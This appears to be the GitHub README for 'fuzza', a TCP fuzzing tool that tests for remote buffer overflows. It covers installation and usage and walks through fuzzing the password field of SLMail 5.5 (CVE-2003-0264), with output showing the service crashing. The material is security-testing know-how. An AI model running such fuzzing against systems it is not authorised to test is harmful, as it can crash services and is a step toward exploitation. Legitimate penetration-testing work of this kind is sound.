# fuzza

[![](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)
[![PyPI](https://img.shields.io/pypi/v/fuzza)](https://pypi.org/project/fuzza/)
[![PyPI - Status](https://img.shields.io/pypi/status/fuzza)](https://pypi.org/project/fuzza/)
[![PyPI - Python Version](https://img.shields.io/pypi/pyversions/fuzza)](https://pypi.org/project/fuzza/)
[![PyPI - Format](https://img.shields.io/pypi/format/fuzza)](https://pypi.org/project/fuzza/)
[![PyPI - Implementation](https://img.shields.io/pypi/implementation/fuzza)](https://pypi.org/project/fuzza/)
[![PyPI - License](https://img.shields.io/pypi/l/fuzza)](https://pypi.org/project/fuzza/)

[![Build Status](https://github.com/cytopia/fuzza/workflows/linting/badge.svg)](https://github.com/cytopia/fuzza/actions?workflow=linting)

Customizable TCP fuzzing tool to test for remote buffer overflows.


## Installation
```bash
pip install fuzza
```


## Usage
```bash
$ fuzza --help

usage: fuzza [-h] [-v] [-c char] [-p str] [-s str] [-l int] [-m int] [-i str]
             [-e str] [-t float] [-d float]
             host port

Customizable TCP fuzzing tool to test for remote buffer overflows.

positional arguments:
  host                  address to connect to.
  port                  port to connect to.

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         Show version information,
  -c char, --char char  Buffer character to send as payload. Default: "A"
  -p str, --prefix str  Prefix string to prepend to buffer. Empty by default.
  -s str, --suffix str  Suffix string to append to buffer. Empty by default.
  -l int, --length int  Initial length to concat buffer string with x*char. Default: 100
  -m int, --multiply int
                        Round multiplier to concat buffer string with x*char every round. Default: 100
  -i str, --init str    If specified, initializes communication before sending the payload in the form
                        '<send>:<expect>,<send>:<expect>,...'. Where <send> is the data to be sent
                        to the server and <expect> is the answer to be received from the server.
                        Either one of <send> or <expect> can be omitted if you expect something without
                        having sent data yet or need to send something for which there will not be an
                        answer. Multiple <send>:<expect> are supported and must be separated by a comma.
                        Regex supported for <expect> part.
  -e str, --exit str    If specified, finalizes communication after sending the payload in the form
                        '<send>:<expect>,<send>:<expect>,...'. Where <send> is the data to be sent
                        to the server and <expect> is the answer to be received from the server.
                        Either one of <send> or <expect> can be omitted if you expect something without
                        having sent data yet or need to send something for which there will not be an
                        answer. Multiple <send>:<expect> are supported and must be separated by a comma.
                        Regex supported for <expect> part.
  -t float, --timeout float
                        Timeout for receiving data before declaring the endpoint as crashed. Default: 30.0
  -d float, --delay float
                        Delay in seconds between each round. Default: 1.0

example:

  The following example illustrates how to use the initial communication by:
      1. Expecting the POP3 server banner
      2. Sending 'USER bob'
      3. Expecting a welcome message
  Additionally before sending the fuzzing characters, it is prepended with 'PASS ',
  so that the actuall fuzzing can be done on the password:
     1. Prefix payload with 'PASS '
     2. Send payload
  Lastly in order to also close the connection the '-e' opton is used
  (which works exactly as '-i') in order to send data after the payload.
     1. Expect any response from password payload
     2. Terminate the connection via QUIT

     $ fuzza -i ':.*POP3.*,USER bob:.*welcome.*' -e '.*:QUIT' -p 'PASS '
```


## Examples

### SLMail 5.5 Buffer overflow

* [CVE-2003-0264](https://www.cvedetails.com/cve/CVE-2003-0264/) - buffer overflow in password.

To see how the raw communication works, have a look at the following netcat snippet:
```bash
$ nc mail.example.tld 110
+OK POP3 server mail.example.tld ready <00001.544405549@mail.example.tld>
USER test
+OK test welcome here
PASS LongPassword
-ERR unable to lock mailbox
QUIT
```

In order to fuzz the password, all previous communication must have happened. By using `fuzza`,
this can be achieved with the `-i` argument to specify initial data to be send and received:
```bash
$ fuzz -i ':.*OK POP3.*,USER test:.*test welcome.*' -p 'PASS ' -e '.*:QUIT' mail.example.tld 110

------------------------------------------------------------
A * 100
------------------------------------------------------------
Init Awaiting: .*OK POP3.*
Init Received: +OK POP3 server mail.example.tld ready <00005.544236132@mail.example.tld>
Init Sending:  USER test
Init Awaiting: test welcome
Init Received: +OK test welcome here
Sending "PASS " + "A"*100 + ""
Exit Awaiting: .*
Exit Received: -ERR unable to lock mailbox
Exit Sending:  QUI
...

------------------------------------------------------------
A * 4000
------------------------------------------------------------
Init Awaiting: .*OK POP3.*

Remote service (most likely) crashed at 3000 bytes of "A"
Payload sent:
PASS AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```


## License

**[MIT License](LICENSE.txt)**

Copyright (c) 2020 **[cytopia](https://github.com/cytopia)**
